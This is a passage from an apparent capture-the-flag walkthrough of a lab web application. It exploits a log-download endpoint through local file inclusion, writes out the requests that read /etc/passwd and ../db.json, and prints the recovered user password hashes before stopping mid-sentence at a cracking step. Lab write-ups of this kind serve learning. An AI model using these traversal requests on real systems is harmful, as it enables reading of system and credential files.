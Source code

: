 > Reload the page and it will show a Admin Panel
> 

![2025-10-23_01-45.png](img5.png)

it how the user and admin logs try to download the loge, the `admin` download but the user log have problem downloading.

![2025-10-23_01-50.png](img4.png)

 it will redirect to this link but no download file but it you change the link to the admin it will download, but in the output have a hint on it.

> “`If you entered the URL manually please check your spelling and try again.`”
> 

![2025-10-23_01-58.png](img7.png)

# Exploiting

## local file inclusion

in the link and it work 

```jsx
http://ip:8000/admin/get_system_log?log_identifier=/etc/passwd
```

![2025-10-23_02-19.png](img8.png)

the database file system store the db.json ../db.json

```jsx
http://ip:8000/admin/get_system_log?log_identifier=../db.json
```

after we download we find the hash for admin and testuser

```jsx
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
...
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
...
        }
    ],
```

We try the **admin hash** to creak but it doesn’t we cant find it. but the `testuser` we creak it use 
